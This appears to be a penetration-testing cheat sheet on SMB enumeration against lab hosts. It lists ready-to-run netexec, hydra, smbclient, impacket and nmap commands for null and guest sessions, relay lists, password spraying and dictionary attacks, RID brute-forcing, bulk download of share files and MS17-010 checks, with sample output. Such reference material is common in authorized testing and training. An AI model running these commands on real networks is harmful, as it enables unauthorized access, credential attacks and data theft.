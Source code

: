 ```yaml
---
description: Basic SMB Enumeration and Exploitation
---
```


# SMB

### Basic Enumeration

{% code overflow="wrap" %}
```bash
# List all NetExec modules
netexec smb 172.16.8.139 -L
# Check SMB version
netexec smb 172.16.8.139
# Check SMB Service on subnet
netexec smb 172.16.8.139/24

# Check null auth
smbclient -L 192.168.1.2 --no-pass
smbclient //192.168.1.2/public --no-pass
```
{% endcode %}

### Enumerate Null Sessions

Check if Null Session, also known as Anonymous session, is enabled on the network. Can be very useful on a Domain Controller to enumerate users, groups, password policies, etc.

```bash
netexec smb 172.16.8.139 -u 'nonexistusers' -p ''
netexec smb 172.16.8.139 -u 'nonexistusers' -p '' --shares
```

### Enumerate Guest Logon

Using a random username and password you can check if the target accepts guest logon. If so, it means that either the domain guest account or the local guest account of the server you're targetting is enabled.

{% code overflow="wrap" %}
```bash
netexec smb 172.16.8.139 -u Guest -p ''
netexec smb 172.16.8.139 -u Guest -p '' --shares
```
{% endcode %}

### SMB Signing Not Required

Maps the network of live hosts and saves a list of only the hosts that don't require SMB signing. List format is one IP per line.

{% code overflow="wrap" %}
```bash
netexec smb 192.168.1.0/24 --gen-relay-list relay_list.txt
```
{% endcode %}

Reference:

* [https://www.netexec.wiki/smb-protocol/enumeration](https://www.netexec.wiki/smb-protocol/enumeration)

### Dictionary Attack and Password Spraying

Dictionary attack with username and password lists.

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.10.10.1 smb2
```

Password spraying with NetExec

{% code overflow="wrap" %}
```bash
netexec smb 10.10.10.1 -u common_users.txt -p 'Passw0rd' --continue-on-success
```
{% endcode %}

### Authenticated Enumeration

Shares check with credentials

{% code overflow="wrap" %}
```bash
# Check using valid account
netexec smb 172.16.8.139 -u asuka -p 'p@ssw0rd' --shares

# check with local account (not domain account)
netexec smb 172.16.8.139 -u asuka -p 'p@ssw0rd' --shares --local-auth
```
{% endcode %}

Username enumeration on Workstation using valid credentials

{% code overflow="wrap" %}
```bash
netexec smb 10.10.100.206 -u 'Jon' -p 'alqfna22' --users
```
{% endcode %}

Enum disk

{% code overflow="wrap" %}
```bash
netexec smb 172.16.8.140 -u 'Administrator' -p 'Password123' --disk --local-auth
```
{% endcode %}

### Password Policy Check

Check password policy on Domain/Workstation

{% code overflow="wrap" %}
```bash
netexec smb 172.16.8.139 -u 'administrator' -p 'passw0rd' --pass-pol
```
{% endcode %}

Example output:

```bash
....................
SMB         172.16.8.139    445    EVANGELION-PC    [+] Dumping password info for domain: EVANGELION
SMB         172.16.8.139    445    EVANGELION-PC    Minimum password length: 7
SMB         172.16.8.139    445    EVANGELION-PC    Password history length: 24
SMB         172.16.8.139    445    EVANGELION-PC    Maximum password age: 41 days 23 hours 53 minutes 
SMB         172.16.8.139    445    EVANGELION-PC    
SMB         172.16.8.139    445    EVANGELION-PC    Password Complexity Flags: 000000
SMB         172.16.8.139    445    EVANGELION-PC        Domain Refuse Password Change: 0
SMB         172.16.8.139    445    EVANGELION-PC        Domain Password Store Cleartext: 0
SMB         172.16.8.139    445    EVANGELION-PC        Domain Password Lockout Admins: 0
SMB         172.16.8.139    445    EVANGELION-PC        Domain Password No Clear Change: 0
SMB         172.16.8.139    445    EVANGELION-PC        Domain Password No Anon Change: 0
SMB         172.16.8.139    445    EVANGELION-PC        Domain Password Complex: 0
SMB         172.16.8.139    445    EVANGELION-PC    
SMB         172.16.8.139    445    EVANGELION-PC    Minimum password age: 1 day 4 minutes 
SMB         172.16.8.139    445    EVANGELION-PC    Reset Account Lockout Counter: 30 minutes 
SMB         172.16.8.139    445    EVANGELION-PC    Locked Account Duration: 30 minutes 
SMB         172.16.8.139    445    EVANGELION-PC    Account Lockout Threshold: None
SMB         172.16.8.139    445    EVANGELION-PC    Forced Log off Time: Not Set
```

### Password Spraying

{% code overflow="wrap" %}
```bash
netexec smb 172.16.8.139 -u username-lists.txt -p 'p@ssw0rd'
```
{% endcode %}

### RID Cycling - Username Enumeration

{% code overflow="wrap" %}
```bash
# NetExec
netexec smb 172.16.8.139 -u evasvc -p 'Serviceworks1' --rid-brute

# Impacket-lookupsid
impacket-lookupsid 'evasvc':'Serviceworks1'@evangelion.lab
impacket-lookupsid 'evasvc':'Serviceworks1'@evangelion.lab | grep SidTypeUser | cut -d' ' -f2 | cut -d'\' -f2
```
{% endcode %}

### SMBClient

```bash
# no pass
smbclient //192.168.1.2/public --no-pass
# with creds
smbclient //172.16.8.139/secrets-folder -U  'username'%'p@ssw0rd' -p 445
# download all files from shares
smbclient '//10.10.11.174/support-tools' -N -c 'prompt OFF;recurse ON;mget *'
```

### Vuln Checks

{% code overflow="wrap" %}
```bash
nmap -Pn --script 'smb-vuln*' -p 139,445 10.10.100.206
netexec smb 10.10.100.206 -u '' -p '' -M ms17-010
```
{% endcode %}

Example output:

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-24 23:50 WIB
Nmap scan report for 10.10.100.206 (10.10.100.206)
Host is up (0.38s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 13.31 seconds
```

```bash
netexec smb 10.10.100.206 -u '' -p '' -M ms17-010

SMB         10.10.100.206   445    JON-PC           [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:JON-PC) (domain:Jon-PC) (signing:False) (SMBv1:True)
SMB         10.10.100.206   445    JON-PC           [+] Jon-PC\: 
MS17-010                                            [+] 10.10.100.206 is likely VULNERABLE to MS17-010! (Windows 7 Professional 7601 Service Pack 1)
```

Updated soon...
